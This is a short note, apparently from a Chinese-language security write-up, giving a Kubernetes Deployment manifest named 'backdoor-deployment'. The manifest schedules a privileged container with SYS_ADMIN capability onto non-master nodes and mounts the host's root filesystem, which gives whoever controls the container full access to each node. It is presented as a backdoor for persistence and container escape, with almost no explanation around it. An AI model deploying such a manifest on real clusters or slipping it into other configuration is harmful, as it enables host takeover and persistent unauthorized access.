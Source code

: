 顺便记录一下滑动到非master节点

- backdoor-deployment-slave.yaml

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backdoor-deployment
  labels:
    app: backdoor-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backdoor-deployment
  template:
    metadata:
      labels:
        app: backdoor-deployment
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        operator: Exists
        effect: NoSchedule
      affinity:
        nodeAffinity:
          requiredDuringSchedulingIgnoredDuringExecution:
            nodeSelectorTerms:
            - matchExpressions:
              - key: node-role.kubernetes.io/master
                operator: DoesNotExist
      containers:
      - name: nginx
        image: nginx:1.14.2
        ports:
        securityContext:
          privileged: true
          capabilities:
            add:
            - SYS_ADMIN
        volumeMounts:
          - name: rootfs
            mountPath: /host
      volumes:
        - name: rootfs
          hostPath:
            path: /
```

















